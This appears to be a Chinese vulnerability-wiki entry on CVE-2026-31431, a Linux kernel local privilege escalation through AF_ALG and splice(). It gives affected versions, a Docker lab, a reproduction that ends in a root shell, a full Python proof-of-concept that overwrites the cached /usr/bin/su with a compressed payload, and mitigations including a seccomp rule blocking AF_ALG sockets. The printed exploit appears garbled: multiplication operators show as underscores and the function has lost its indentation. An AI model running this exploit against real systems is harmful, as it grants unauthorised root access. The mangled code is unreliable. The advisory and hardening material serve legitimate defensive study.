




# Linux Copy Fail 本地提权漏洞 CVE-2026-31431

## 漏洞描述

Linux kernel 是开源操作系统内核，2026 年 4 月，互联网上披露 CVE-2026-31431 Linux Copy Fail 本地提权漏洞。由于 Linux 内核加密子系统 authencesn 模块中存在逻辑缺陷，攻击者通过 AF_ALG 套接字暴露的内核加密 API，配合 splice() 系统调用，可实现对 setuid 二进制文件（如 /usr/bin/su）页缓存的 4 字节任意写入，并最终导致本地提权。

参考链接：

- https://access.redhat.com/security/cve/cve-2026-31431#cve-details-mitigation
- https://github.com/theori-io/copy-fail-CVE-2026-31431
- https://nvd.nist.gov/vuln/detail/CVE-2026-31431
- https://lore.kernel.org/linux-cve-announce/2026042214-CVE-2026-31431-3d65@gregkh/
- https://websec.net/blog/cve-2026-31431-linux-algifaead-page-cache-write-to-root-69f38a4ccddd2db1f520f170
- https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431
- https://www.kb.cert.org/vuls/id/260001
- https://xint.io/blog/copy-fail-linux-distributions#the-fix-6

## 漏洞影响

```
4.14 <= Linux Kernel < 5.10.254
5.11 <= Linux Kernel < 5.15.204
5.16 <= Linux Kernel < 6.1.170
6.13 <= Linux Kernel < 6.18.22
6.19 <= Linux Kernel < 6.19.12
6.2 <= Linux Kernel < 6.6.137
6.7 <= Linux Kernel < 6.12.85
7.0-rc1 <= Linux Kernel <= 7.0-rc6  

目前已知受影响的主流操作系统及版本：
Ubuntu 25.10
Ubuntu 24.04 LTS
Ubuntu 22.04 LTS
Ubuntu 20.04 LTS
Ubuntu 18.04 LTS
Debian 13 < 6.12.85-1
Debian 12 < 6.1.170-1
Debian 11 < 5.10.251-3  
Rocky Linux 10 < 6.12.0-124.55.1.el10_1  
Rocky Linux 9 < 5.14.0-611.54.1.el9_7  
Rocky Linux 8 < 4.18.0-553.123.1.el8_10  
Amazon Linux 2 < 4.14.355-281.727.amzn2
Amazon Linux 2023 < 6.1.168-203.330.amzn2023
Red Hat Enterprise Linux 10 < 6.12.0-124.55.1.el10_1
Red Hat Enterprise Linux 9 < 5.14.0-611.54.1.el9_7
Red Hat Enterprise Linux 8 < 4.18.0-553.123.1.el8_10
openSUSE Leap 15.6 < 6.4.0-150600.23.100.1
openSUSE Leap 16.0 < 6.12.0-160000.29.1
```

安全版本：

```
Linux Kernel >= 5.10.254
Linux Kernel >= 5.15.204
Linux Kernel >= 6.1.170
Linux Kernel >= 6.18.22
Linux Kernel >= 6.19.12
Linux Kernel >= 6.6.137
Linux Kernel >= 6.12.85
Linux Kernel >= 7.0-rc7

Debian 13 >= 6.12.85-1
Debian 12 >= 6.1.170-1
Debian 11 >= 5.10.251-3
Rocky Linux 10 >= 6.12.0-124.55.1.el10_1
Rocky Linux 9 >= 5.14.0-611.54.1.el9_7
Rocky Linux 8 >= 4.18.0-553.123.1.el8_10
Amazon Linux 2 >= 4.14.355-281.727.amzn2
Amazon Linux 2023 >= 6.1.168-203.330.amzn2023
Red Hat Enterprise Linux 10 >= 6.12.0-124.55.1.el10_1
Red Hat Enterprise Linux 9 >= 5.14.0-611.54.1.el9_7
Red Hat Enterprise Linux 8 >= 4.18.0-553.123.1.el8_10
openSUSE Leap 15.6 >= 6.4.0-150600.23.100.1
openSUSE Leap 16.0 >= 6.12.0-160000.29.1
```

## 环境搭建

Dockerfile

```
FROM ubuntu:22.04

RUN apt update && apt install -y --no-install-recommends \
    python3 sudo \
    && rm -rf /var/lib/apt/lists/*

# 创建普通用户 three，密码 123456
RUN useradd -m three && echo "three:123456" | chpasswd

WORKDIR /home/three
USER three
CMD ["/bin/bash"]
```

docker-compose.yml

```
version: '3.8'
services:
  cve-2026-31431:
    build: .
    container_name: cve-2026-31431
    tty: true
    stdin_open: true
    restart: "no"
```

在 Linux 环境中，执行如下命令启动漏洞环境：

```
docker-compose up -d
```

## 漏洞复现

根据 [exp](https://github.com/theori-io/copy-fail-CVE-2026-31431) 进行漏洞复现：

```
docker cp copy_fail_exp.py cve-2026-31431:/tmp/
```

查看内核版本，当前环境在影响范围内：

```
docker compose exec cve-2026-31431 /bin/bash
-----
three@7163a9700c13:~$ uname -r
4.18.0-553.56.1.el8_10.x86_64
```




检查 AF_ALG socket 是否可创建：

```
python3 -c "import socket; socket.socket(38,5,0); print('VULNERABLE')"
```




提权前，`three` 用户无权访问 `/root` 目录：

```
three@82afc5973648:~$ ls -al /root
ls: cannot open directory '/root': Permission denied
```

提权后，`three` 用户成功获取 `root` 权限：

```
three@82afc5973648:~$ python3 /tmp/copy_fail_exp.py 
# whoami
root
# id    
uid=0(root) gid=1000(three) groups=1000(three)
# ls -al /root
total 16
drwx------ 2 root root 4096 Apr 10 02:31 .
drwxr-xr-x 1 root root 4096 May 11 07:15 ..
-rw-r--r-- 1 root root 3106 Oct 15  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```




**本环境中的容器环境加固措施**

在 docker-compose.yml 同一目录下新建 seccomp.json：

```
vim seccomp.json 
-----
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": ["socket"],
      "action": "SCMP_ACT_ERRNO",
      "args": [
        {
          "index": 0,
          "value": 38,
          "op": "SCMP_CMP_EQ"
        }
      ]
    }
  ]
}
```

修改 docker-compose.yml：

```
version: '3.8'
services:
  cve-2026-31431:
    build: .
    container_name: cve-2026-31431
    tty: true
    stdin_open: true
    restart: "no"
    security_opt:
      - seccomp=seccomp.json
```

重新启动漏洞环境进行测试，查看是否加固成功：

```
docker-compose up --build -d
```

可以看到，已成功禁止 AF_ALG socket 创建：




## 漏洞 POC

copy_fail_exp.py

```
#!/usr/bin/env python3  
import os as g,zlib,socket as s  
def d(x):return bytes.fromhex(x)  
def c(f,t,c):  
a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'_64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"_4+c],[(h,3,i_4),(h,2,b'\x10'+i_19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)  
try:u.recv(8+t)  
except:0  
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))  
while i<len(e):c(f,i,e[i:i+4]);i+=4  
g.system("su")
```

## 漏洞修复

### 临时缓解措施

注：针对静态编译进内核的系统（例如：RHEL/CentOS/Rocky Linux/AlmaLinux 8, 9, 10 三代产品），此缓解措施可能无法生效，建议更新官方内核补丁。

```
# 禁用内核模块
echo "install algif_aead /bin/false" > /etc/modprobe.d/disable-algif-aead.conf

# 卸载已加载模块
rmmod algif_aead 2>/dev/null

# 验证
python3 -c 'import socket; s=socket.socket(38,5,0); (s.bind(("aead", "authencesn(hmac(sha256),cbc(aes))")) or print(" 未缓解 ")) if s else None' 2>/dev/null || echo " 已缓解 "
```

容器环境加固：

```
# 通过 seccomp 禁止 AF_ALG socket 创建（family=38）
"syscalls": [{  "names": ["socket"],  "action": "SCMP_ACT_ERRNO",  "args": [{"index": 0, "value": 38, "op": "SCMP_CMP_EQ"}]}]
```

### 通用修补建议

针对 Debian、RHEL/CentOS、SUSE、Amazon 等用户，官方已发布内核安全更新补丁，请及时更新补丁：

- Debian：https://security-tracker.debian.org/tracker/CVE-2026-31431
- RHEL/CentOS：https://access.redhat.com/security/cve/cve-2026-31431
- SUSE：https://www.suse.com/security/cve/CVE-2026-31431.html
- Amazon Linux：https://explore.alas.aws.amazon.com/CVE-2026-31431.html

针对 Ubuntu 用户，官方暂未发布内核更新补丁，但已发布 kmod 软件包的更新及其它缓解措施，该更新会禁用 algif_aead 模块的加载，建议受影响用户参考以下官方链接更新 kmod 软件包： https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available。 注：内核补丁更新可持续关注官方安全公告： https://ubuntu.com/security/CVE-2026-31431


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
